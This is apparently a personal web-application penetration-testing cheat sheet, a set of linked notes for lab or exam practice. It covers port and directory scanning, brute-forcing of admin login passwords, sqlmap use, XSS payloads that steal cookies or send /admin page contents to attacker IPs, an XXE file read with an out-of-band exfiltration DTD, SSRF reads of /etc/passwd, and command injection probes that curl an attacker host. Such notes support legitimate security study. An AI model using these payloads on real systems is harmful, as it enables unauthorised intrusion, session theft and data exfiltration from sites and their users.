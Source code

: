 ## Set a timer!!!!!

## Find ports

```bash
nmap app
```

TODO

## Find os

```bash
sudo nmap -O -Pn app
```

TODO

## Research site directory

```bash
gobuster dir -u http://app -w /usr/share/wordlists/dirb/common.txt -b 301
```



```bash
gobuster dir -u http://app -w /usr/share/seclists/Discovery/Web-Content/combined_directories.txt -b 301
```

TODO

```bash
wfuzz -w /usr/share/seclists/Discovery/Web-Content/combined_directories.txt --hc 404 http://app/FUZZ.php
```

TODO

## Password Brute force

```bash
wfuzz -w /usr/share/seclists/Passwords/xato-net-10-million- passwords-100000.txt -d "username=admin&password=FUZZ" --hc 404  https://app/login
```

TODO

```bash
wfuzz -w rockyou.txt -d "username=admin&password=FUZZ" --hc 404  https://app/login
```

TODO

[[2023061505154848 Password brute force]]

## SQL 
https://github.com/SmotrovaLilit/sql-sandbox/blob/main/SQL-INJECTION.MD
```bash
sqlmap -u http://app/login --method POST --data "username=admin&password=dsad" -p "password" --dbms=mysql
```
- [[202305042013000 SQL Operations]]
- [[2023050422584646 SQL Injection]]
	- [[2023081617194747 SQL Injection number of table column]]
	- [[2023081617423030 SQL injection return all items in the table]]
	- [[202305051825099 SQL Injection Error based payloads]]
	- [[202305051829000 SQL Injection UNION-based Payloads]]
	- [[202305051829033 SQL Injection Stacked Queries]]
	- [[2023050518282929 SQL Injection Reading and Writing Files]]
	- [[2023050518285757 SQL Injection Remote Code Execution]]
	- [[202305091539011 SQL Map]]
## XSS 
```html
<script src='http://192.168.49.55/xss.js'></script>
```

Stealing cookie
can't steal cookie with http only
```js
fetch("http://192.168.49.62/cookie?data=" + encodeURIComponent(document.cookie));
```
Send request result to an attacker machine
```js
fetch("/admin").then(data => data.text()).then(data => {

    fetch("http://192.168.45.195:9000", {method: "POST", body: data, mode: 'no-cors'})

})
```

[[2023042015372828 XSS]]
	- XSS Types
		- [[2023042615423737 Reflected Server XSS]]
		- [[2023042618302828 Stored Server XSS]]
		- [[2023042618315454 Reflected Client XSS]]
		- [[2023042618331111 Stored Client XSS]]
	- [[2023042721252929 Stealing cookie XSS]]
	- [[2023042722275252 Stealing local storage XSS]]
	- [[2023042721181010 XSS external JS payload]]
	- [[2023042801143030 Keylogging XSS]]
	- [[2023042801401414 Stealing Saved Password XSS]]
	- [[2023072521342323 XSS Send request result to an attacker machine]]
	- [[2023042900595252 Phishing Users]]
	- [[202304301516077 Inject external script in url]]
## XML 
Payload:
```xml
<?xml version="1.0"?>

<!DOCTYPE data [

<!ELEMENT data ANY >

<!ENTITY proofkey SYSTEM "file:///proof.txt">
]>
<proofkey>&proofkey;</proofkey>
```

external.dtd
```xml
<!ENTITY % content SYSTEM "file:///proof.txt">

<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://an attacker's ip address/out?%content;'>" >
```

```xml
<?xml version="1.0" encoding="utf-8"?>  
<!DOCTYPE oob [  
<!ENTITY % base SYSTEM "http://an attacker's ip address/external.dtd"> %base;  
%external;  
%exfil;  
]>  
<entity-engine-xml>  
</entity-engine-xml>

```

```bash
tail  /var/log/apache2/access.log 
```
## Directory Traversal

[[2023051318534545 Directory Traversal or Path Traversal]]

## Templates
[[2023051512325757  SSTI]]

## IDOR


## SSRF
Do request to an attacker machine

```
tail -f /..
```

```
http://<ip>/testssrf
```
Domains: localhost, 127.0.0.1, file:///etc/passwd

- retrieving data using GER requests
- retrieving file content. Example:  file:///etc/passwd
- do POST/PUT... requests using gopher [[2023090518224444 SSRF with gopher]]
- sometimes applications save files from the url and save them with blobId, which we can execute later calling another get request.  See example here [[202305201524033 SSRF Server-side Request Forgery#^1e32a4]]
- 
[[202305201524033 SSRF Server-side Request Forgery]]
	- [[2023090518224444 SSRF with gopher]]

## CMD
```
;id 
;whoami
;curl http://<attacker-ip>/testcmd
```

- [[2023051521093838 Command Injection]]
	- [[2023090517502828 CMD Injection.  Command Channing]]
	- [[2023090517513333 CMD Injection.  Embedded command]]
	- [[2023090517533434 CMD Injection.  Send  the result of command to an attacker's machine]]
	- [[2023090517563535 CMD Injection.  Blind command execution]]
	- [[2023090517593737 CMD Injection.  How to bypass application protection mechanisms]]
	- [[2023090518011919 CMD Injection.  Check availability of commands]]
	- [[2023090518034747 CMD Injection.  Encoding payload using urlencode]]
	- [[2023090518055757 CMD Injection.  Word lists]]
	- [[2023050701263232 Web Shells]]

